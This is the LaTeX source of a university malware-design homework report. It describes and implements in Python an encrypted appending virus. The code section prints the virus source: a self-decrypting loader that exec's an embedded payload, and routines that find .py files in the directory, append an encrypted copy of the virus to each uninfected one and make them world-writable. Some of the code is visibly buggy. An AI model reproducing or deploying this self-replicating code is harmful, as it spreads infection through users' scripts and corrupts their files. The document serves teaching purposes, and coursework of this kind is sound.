\documentclass[a4paper,11pt]{article}
\usepackage[english]{babel}
\usepackage[utf8]{inputenc}

\usepackage{cite}
\usepackage{listings}
\usepackage{amssymb, amsmath, latexsym}
\usepackage{syntax}
\usepackage{multicol}
\usepackage{tikz-cd}
\usepackage{color}
\usepackage{graphicx}
\usepackage{amsthm}
\usepackage{graphics}
\usepackage{listings}
\usepackage{stmaryrd}
\usepackage{array}
\usepackage{setspace}
\usepackage{minted}
\AtBeginEnvironment{minted}{
    \fontsize{11}{11}
    \selectfont}

%%%%%%%%%%%
% 			Macro		%
%%%%%%%%%%%

%%% Definition of the language used
\lstdefinelanguage{code}
  { keywords={},
   otherkeywords={var_dump, echo},
	basicstyle=\ttfamily,
    keywordstyle=\bfseries\color{blue},
    sensitive=false,
    commentstyle=\color{green!40!black},
    showspaces=false,
    %numbers=left,
    tabsize=2,
    literate={~} {$\sim$}{1},
    showstringspaces=false,emph={3}
    showtabs=true,
    morecomment=[l]{//},
    morecomment=[s]{/*}{*/},
    morestring=[b],
    breaklines=true,
    breakindent=12pt
}

\lstset{language=code}

\newcommand{\tocode}[1]{\mbox{\lstinline@#1@}}

\begin{document}
\author{Vincenzo Arceri VR386484 \\ Giovanni Liboni VR387955 \\ Alberto Marini}
\title{Malware analysis and design \\ Homework No. 3}
\maketitle

\section{Introduction}
The purpose is to design a virus similar to the \textit{vbash} one, except that it will be encrypted. Its structure is divided in two parts:
\begin{enumerate}
\item The first part of the code will be unencrypted and will simply consist of the decryption function. The key will be made of the first bytes of the infected virus.
\item The second part (the most important one) will consist of the main body of the virus.
\end{enumerate}
The virus will be an appending one. It will spread as follows:
\begin{enumerate}
\item The decrypted routine retrieves the key from the infected file and decrypts the main body of the virus.
\item Once decrypted, the virus is executed.
\begin{enumerate}
\item It looks for infected files.
\item During the infection, it creates a specific key for each file (once again, a few bytes are taken from the target file), then encrypts its own main body and adds both the decrypting routine and the ( encrypted ) main viral body to the target file.
\item A potential payload may be triggered ( with or without a delayed action mechanism).
\end{enumerate}
\end{enumerate}
\section{Virus design}
We decide to write the homework assigned using the language Python.

The virus is divived in two principle parts:
\begin{itemize}
\item virus decryption routine: it is not encrypted and it has to decrypt the encrypted virus program body and execute it;
\item encrypted virus program body: it is encrypted (using the first line of the virus as the encryption key) and contains the infection and payload phases.
\end{itemize}

When the encrypted virus program body is decrypted and executed, it will do the following operations:
\begin{itemize}
\item search for potentially infectable file: the virus program body searches for others Python scripts into the current directory;
\item check if the Python file is already infected: if so, skip the file and try with another one in order to prevent the over infection;
\item infect the file: the main body of the virus appends, to the target,  its own code composed, as the original virus, with the virus decryption routine and the encrypted virus program body, using the first line of the target as encryption key.
\end{itemize}

The Figure \ref{fig:mission} shows graphically what it was explained above.

\begin{figure}
\centering

\includegraphics[scale=0.8]{img/virus-design}
\caption{Virus design\label{fig:mission}}
\end{figure}

\section{Implementation}

The code shown below corresponds to the virus decryption routine, whereas the second portion of code corresponds to the encrypted virus program body; note that the encrypted virus program body is already encrypted in the virus decryption routine, at line 23.

\begin{minted}[mathescape,
               linenos]{python}
# Open the virus itself
this = open(__main__.__file__, 'r')
# Set copy variable to False
copy = False
# Initialize an empty string
cipher_payload = ''

# Search for the encrypted main body of the virus 
# and copy it into cipher_payload
for line in this:
   if line.strip() == '# Start payload':
      copy = True
   elif line.strip() == '# End payload':
      copy = False
   elif copy:
      cipher_payload = cipher_payload + line
# Decrypt the main body of the virus and execute it.
e = decrypt(cipher_payload[1:])
exec e

# Encrypted main body of the virus
# Start payload
#NpvtmqJT43JyqT/ubKnOIohtnxVkmEl...
# End payload
\end{minted}

\begin{minted}[mathescape,
               linenos]{python}
import os
# Function to check if a file is already infected
def is_infected(filename):
   # Open file
   f = open(filename, 'r')
   # Read all lines
   lines = f.readlines()
   # If the numbers of lines is less than 46 then the file is not infected
   if len(lines) < 46:
      return False
   # if the (lines minus 46)-th line starts with '######...# First script python'
   #  then the file is infected; otherwise it's not infected
   return lines[len(lines) - 46].startswith('######...# First script python')

# Function to infect a file
def infect(filename):
   # Rename the file as a temporary file
   os.rename(filename, filename + '-copy')
   # Create a new file named as previous file
   destination = open(filename, 'w')
   # Set execution permission to the file
   os.chmod(filename, 0777)
   # Open the temporary file   
   source = open(filename + '-copy', 'r')
   # Open this file
   this = open(__main__.__file__, 'r')

   # Copy the content of this file into the destination file
   for line in source:
      destination.write(line)
   # Write the signature
   destination.write("\n################...# First script python\n")
   destination.write("# coding=utf-8\n")
   destination.write("# Start Unencrypted\n")
   # Set copy to False, virus unencrypted body not found yet
   copy = False
   # Initialize result
   result = ''
   # Copy the unencrypted payload into the new file 
   # only if the string '# Start Unencrypted'  is found
   for line in this:
      if line.strip() == '# Start Unencrypted':
         copy = True
      elif line.strip() == '# End Unencrypted':
         destination.write('# End Unencrypted')
         copy = False
      elif copy:
         destination.write(line);
   # Write the malicious payload at the end of file
   destination.write("\n# Start payload\n")
   destination.write("#")
   # Encrypt the body of virus with the first line of the target file
   destination.write(str(encrypt(e, filename)))
   destination.write("\n# End payload")
   # Remove the temporary copy of the file
   os.remove(filename + '-copy')
   source.close()
   destination.close()
   this.close()
   
# Function to find and infect files in the current directory 
def find_and_infect_files():
   path = '.'
   # Lists all files inside current directory
   dirs = os.listdir(path)

   # For each file try to infect it
   for filename in dirs:
      # If file ends with .py and it is not already infected 
      if filename.endswith('.py') and (not is_infected(filename))
         print "Infected " +  str(filename)
         # Infect file with the virus
         infect(filename)
         
# Function to encrypt 
def encrypt(data,filename):
   source = open(filename + '-copy', 'r')
   # Generate a new random initialization vector
   iv = Random.new().read(AES.block_size)
   # Read first 24 bytes to create the key to encrypt data
   cipher = AES.new(StringIO.StringIO(source).read(24), AES.MODE_CFB, iv)
   # Encrypt data
   encrypted = iv + cipher.encrypt(data)

   source.close()
   # Encode encrypted data in base64
   return base64.b64encode(encrypted)

# Malicious payload to execute
def payload():
   print "This file is infected! Mhuahauhauahau!"

# Find and infect files
find_and_infect_files()
# Execute the payload
payload()
\end{minted}

\end{document}
